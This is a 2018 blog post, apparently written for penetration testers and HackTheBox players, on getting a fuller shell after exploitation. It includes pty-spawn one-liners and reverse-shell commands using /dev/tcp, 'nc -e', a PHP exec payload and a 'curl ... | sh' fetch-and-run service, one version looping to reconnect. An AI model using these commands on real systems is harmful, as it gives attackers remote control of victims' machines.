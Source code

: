 ```yaml
---
title:    "Post-Exploitation: spawning a shell"
date:     2018-12-05
tags:     HackTheBox hacking tip
category:	Cybersecurity
comment:  sizes are 2000x750
header:
  image:    assets/images/2018-12-05-post-exploitation-spawning-shell/header.jpg
  teaser:   assets/images/2018-12-05-post-exploitation-spawning-shell/header.jpg
  caption:  "Photo credit: [**Unsplash**](https://unsplash.com)"
---
```


Once you have gained shell access on a machine, you will often find the prompt
extremely limited, especially if you have used manual exploitation. In these
cases, the shell often cannot perform basic tasks that you would expect from a
fully interactive shell prompt like Bash, or zsh. You will also be unable to run
intensive interactive commands such as the Vim text editor, or ncurses-based
programs.

In those situations, if the system is reasonably standard, you will be able to
quickly get a complete shell prompt by invoking a shell of your liking. I
generally try to spawn Bash, because it's shipped by default in most Linux and
some Unix systems (like macOS). Bash is reasonably powerful, complete, and well
documented. Bash also has additional features, like job control and
tab-completion that will only make your life that much easier as a pentester.

These are my favourite snippets, decreasing to the least favourites (or
difficult to remember).

# Python

Lots of Linux distributions will ship with Python by default. It's also very
easy to read, but being a relatively modern programming language, very outdated
servers might not have it installed.

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

If Python is available, but Bash isn't installed, you can also try to spawn
the Bourne Shell (sh), which is included in even more Unices, but it's a bit
less feature-packed:

```
$ python -c 'import pty; pty.spawn("/bin/sh")'
```

# Perl

If Python is not available, Perl might be. It is much older than Python, and
although it's not very popular anymore, it used to be widely known in Linux
sysadmin circles, and soon would become the programming language of choice for
system administrators.

```
$ perl —e 'exec "/bin/sh";'
```

(As with Python, you can also try Bash).

# Spawning a shell directly

The system you're in might not have Python or Perl, but that doesn't mean you
won't get a shell. You can try simply calling the shell directly from your
session:

```
$ /bin/sh -i
```

# Reverse shells

You can also try to have the victim machine connect back to your computer for a
fully functional Bash shell.

All the following examples require you to have Netcat installed on the
attacker's computer. Then, you can run the following:

```
$ nc -l -p 8080 -vvv
```

This opens port 8080. Keep in mind the victim machine needs to be able to reach
your computer directly. So if you're in the same LAN, this trick will work, but
it will definitely not work behind a NAT without some port-forwarding. `-vvv` is
for added verbosity.

Once the Netcat socket is listening on the attacking machine, we can try the
following snippets on the victim:

## Bash magic

```
$ exec 5<>/dev/tcp/<YOUR_REACHABLE_IP_HERE>/8080
$ cat <&5 | while read line; do $line 2>&5 >&5; done
```

This very helpful [trick](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)
will come in handy especially when the victim's computer does not have Netcat
installed but Bash is present.

## Netcat

Netcat is almost never present on production systems. But it's yet another
option, and it's easy to remember too.

```
$ nc -e /bin/sh <YOUR_REACHABLE_IP_HERE> 8888
```

## PHP with Bash

If the victim is running PHP, chances are high the system has Bash installed as
well. In that case, you can try to make the PHP server run the following line.

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_REACHABLE_IP_HERE>/8080 0>&1'"); ?>
```

## Curl with shell.now.sh

[shell.now.sh](https://github.com/lukechilds/reverse-shell) is a free service
that can help you pivot connections. Being a third party, it might stop working
eventually, but because it is an HTTPS connection, it has better chances of
evading corporate firewalls or even IDSs.

```
$ curl https://shell.now.sh/<YOUR_REACHABLE_IP_HERE>:8080 | sh
```

If you run an invalid command, the shell will exit. To avoid this, you can force
it to keep reconnecting, but this will leave the machine exposed after you
finish pentesting it unless you kill the process or reboot the machine.

```
$ while true; do curl https://shell.now.sh/<YOUR_REACHABLE_IP_HERE>:8080 | sh; done
```

### PHP with shell.now.sh

```
<? php exec("curl https://shell.now.sh/<YOUR_REACHABLE_IP_HERE>:8080 | sh"); ?>
```

# Sources

In no particular order:
- <https://www.gnucitizen.org/blog/reverse-shell-with-bash/>
- <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>
- <https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97>
- <https://netsec.ws/?p=337>
- <https://github.com/lukechilds/reverse-shell>
- <https://gist.github.com/rshipp/eee36684db07d234c1cc>
- <https://gist.github.com/roy4801/ad7146e3a0da80a922ca1dde0afd17b0>

